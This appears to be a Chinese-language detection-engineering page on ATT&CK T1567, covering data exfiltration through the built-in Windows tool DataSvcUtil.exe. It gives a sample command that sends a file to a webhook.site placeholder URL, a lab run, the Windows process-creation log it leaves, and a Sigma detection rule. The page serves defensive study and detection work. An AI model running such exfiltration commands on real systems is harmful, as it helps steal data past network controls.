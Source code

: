 # T1567-win-通过Web服务进行渗透-DataSvcUtil.exe(白名单)

## 来自ATT&CK的描述

攻击者可能使用现有的合法外部Web服务而不是他们的主要命令和控制通道来窃取数据。 由于网络中的主机可能在受到攻击之前已经与它们进行通信，因此流行Web服务可能充当渗漏机制的提供大量掩护。 防火墙规则也可能已经存在以允许这些服务的流量。

Web服务提供商通常也使用SSL/TLS加密，为攻击者提供更高级别的保护。

## 测试案例

DataSvcUtil.exe是WCF数据服务提供的命令行工具，它使用开放数据协议(OData)源，并生成从.NET Framework客户端应用程序访问数据服务所需的客户端数据服务类。

路径：

```yml
- C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
```

一般上传文件、凭据或数据泄露:

```yml
DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
```

用例：上传文件
所需权限：用户
操作系统：Windows 10

## 检测日志

windows安全日志

## 测试复现

```yml
C:\Windows\Microsoft.NET\Framework64\v3.5>DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
Microsoft (R) DataSvcUtil 版本 3.5.0.0
版权所有 (C) 2008 Microsoft Corporation。保留所有权利。

正在写入对象层文件...
错误 7001: 远程服务器返回错误: (404) 未找到。

生成已完成 -- 1 个错误，0 个警告
```

## 日志留痕

```yml
已创建新进程。
创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2260

新进程名称: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: DataSvcUtil  /out:C:\\Windows\\System32\\calc.exe /uri:https://www.baidu.com/
```

## 检测规则/思路

参考Sigma官方规则：

```yml
title: LOLBAS Data Exfiltration by DataSvcUtil.exe

id: e290b10b-1023-4452-a4a9-eb31a9013b3a

status: experimental

author: Ialle Teixeira @teixeira0xfffff, Austin Songer @austinsonger

date: 2021/09/30

description: Detects when a user performs data exfiltration by using DataSvcUtil.exe

references:

- https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services

- https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services

tags:

- attack.exfiltration

- attack.t1567

logsource:

category: process_creation

product: windows

detection:

selection:

CommandLine|contains|all:

- '/in:'

- '/out:'

Image|endswith:

- '\DataSvcUtil.exe'

condition: selection

fields:

- ComputerName

- User

- CommandLine

- ParentCommandLine
```

## 参考推荐

MITRE-ATT&CK-T1567

<https://attack.mitre.org/techniques/T1567>

DataSvcUtil.exe

<https://lolbas-project.github.io/lolbas/Binaries/DataSvcUtil/>
